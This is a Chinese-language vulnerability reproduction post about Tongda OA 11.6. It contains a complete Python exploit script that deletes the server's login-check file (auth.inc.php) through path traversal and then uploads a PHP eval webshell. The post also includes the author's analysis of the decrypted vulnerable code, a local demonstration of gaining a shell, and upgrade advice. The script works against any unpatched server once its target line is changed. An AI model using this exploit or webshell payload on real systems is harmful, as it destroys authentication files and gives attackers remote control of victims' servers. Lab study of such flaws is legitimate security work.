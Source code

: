 ```yaml
---
title: 通达OA11.6任意文件删除+文件上传组合GetShell
categories:
  - 漏洞复现
tags:
  - 漏洞
  - 通达OA11.6
  - 漏洞复现
author: Chace
date: 
---
```


## 漏洞介绍

通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。

通达OA为各行业不同规模的众多用户提供信息化管理能力，包括流程审批、行政办公、日常事务、数据统计分析、即时通讯、移动办公等，帮助广大用户降低沟通和管理成本，提升生产和决策效率。

<!--more-->

漏洞利用思路：利用任意文件删除漏洞删除认证文件然后通过文件上传写入一句话木马getshell

注意⚠️：此漏洞会删除认证的文件，然后上传shell，所以该漏洞是会破坏系统认证文件,如果成功利用后会删除程序中的php文件可能会导致程序功能无法使用。

## 影响版本

版本：通达OA 11.6

链接：`https://pan.baidu.com/s/1VqUUNUsgsssK1Mhq2r8HHQ`

提取码：him4

## 漏洞复现

### 环境搭建

靶机环境：win7系统，下载安装包全部默认配置无脑下一步安装



![](1.png)

成功访问网站登录页面如下

![](2.png)

至此确认漏洞环境搭建成功

大佬给出的poc如下：

```python
import requests
target="http://oa.test.com/"
payload="<?php eval($_REQUEST['a']);?>"
print("[*]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")
input("Press enter to continue")
print("[*]Deleting auth.inc.php....")

url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
requests.get(url=url)
print("[*]Checking if file deleted...")
url=target+"/inc/auth.inc.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[-]Failed to deleted auth.inc.php")
    exit(-1)
print("[+]Successfully deleted auth.inc.php!")
print("[*]Uploading payload...")
url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
files = {'FILE1': ('hack.php', payload)}
requests.post(url=url,files=files)
url=target+"/_hack.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[+]Filed Uploaded Successfully")
    print("[+]URL:",url)
else:
print("[-]Failed to upload file")
```

### 漏洞分析

我们通过分析POC我们可知，首先通过任意文件删除漏洞删除`/webroot/inc/`目录中的`auth.inc.php`文件，这里利用的是目录`\webroot\module\appbuilder\assets`下`print.php`文件中的一处任意文件删除漏洞，查看代码文件，全是乱码，应该是经过加密处理，使用使用在线解密工具解密

`http://dezend.qiling.org/free.html`

解密后文件如下：

![](3.png)

可以看到，首先对` $s_tmp`进行赋值一个要删除的文件，最后通过`unlink`函数将文件删除，POC通过此漏洞删除了`/webroot/inc/`目录中的`auth.inc.php`文件，根据名字我们可以粗略判断这是一段用于权限校验的代码，我们同样使用解密工具解密`auth.inc.php`文件

![](4.png)

这个文件用于判断用户是否登录，如果未登录的话，就无法上传文件，所以需要将此文件删除，才能成功上传成功。

所以POC的漏洞利用思路如下：

首先对` $s_tmp`进行赋值，这里的`guid`为我们POC中的`../../../webroot/inc/auth.inc.php`文件，最后通过`unlink`函数将登录校验文件`auth.inc.php`删除，然后我们达到成功上传webshell的目的。

### 攻击演示

攻击会删除`auth_inc.php`文件，这里先做个备份。（注意千万不要找公网环境测试，本地自己搭建环境测试）

修改POC中的target为我们的靶机环境，执行脚本

![](5.png)

成功上传webshell文件，使用蚁剑连接

![](6.png)

成功getshell

![](7.png)

## 修复建议

以上漏洞已在官方的最新版本中修复，建议受影响的用户升级至最新版本进行防护，

官方下载链接：

https://www.tongda2000.com/download/p2019.php



## 参考链接

[通达OA11.6漏洞复现](https://mp.weixin.qq.com/s?src=11&timestamp=1597979065&ver=2535&signature=Scl7syktdMYi2FNWo8JUaFzBtLtPAXQOpqrEYohcliaITc-c-vjoz75UBzHUPe9b5-JouKJIFEw9PIW9N**t*PelOu3CRMChwfYWnaIsKKIW4bSc-Kj4RXBz1LFzkHE-&new=1)